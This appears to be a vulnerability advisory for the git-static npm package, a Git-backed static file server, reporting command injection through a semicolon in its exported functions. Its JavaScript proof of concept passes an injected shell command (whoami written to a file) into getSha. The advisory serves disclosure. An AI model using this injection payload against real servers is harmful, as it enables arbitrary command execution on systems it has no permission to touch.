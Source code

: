 # Overview

git-static is a versioned static file server backed by Git. 

Affected versions of this package are vulnerable to Command Injection. It is possible to inject arbitrary commands by using a semicolon char in any of the exported functions.
Create a bare git `repository` and set the `--repository` flag to that directory when starting the server. Code will be executed inside the `repository`.

# Proof of Concept

```javascript
var fs = require("fs");

var express = require("express"),
    optimist = require("optimist"),
    gitstatic = require("git-static");

var argv = optimist.usage("Usage: $0")
    .options("h", {
      alias: "help",
      describe: "display this help text"
    })
    .options("repository", {
      default: ".git",
      describe: "path to bare git repository"
    })
    .options("port", {
      default: 3000,
      describe: "http port"
    })
    .check(function(argv) {
      if (argv.help) throw "";
      try { var stats = fs.statSync(argv.repository); } catch (e) { throw "Error: " + e.message; }
      if (!stats.isDirectory()) throw "Error: invalid --repository directory.";
    })
    .argv;

var server = express();

server.get(/^\/.*/, gitstatic.getSha(argv.repository, " '; whoami>HACKED #", function(error){
    console.log(error);
}));

server.listen(argv.port);
```
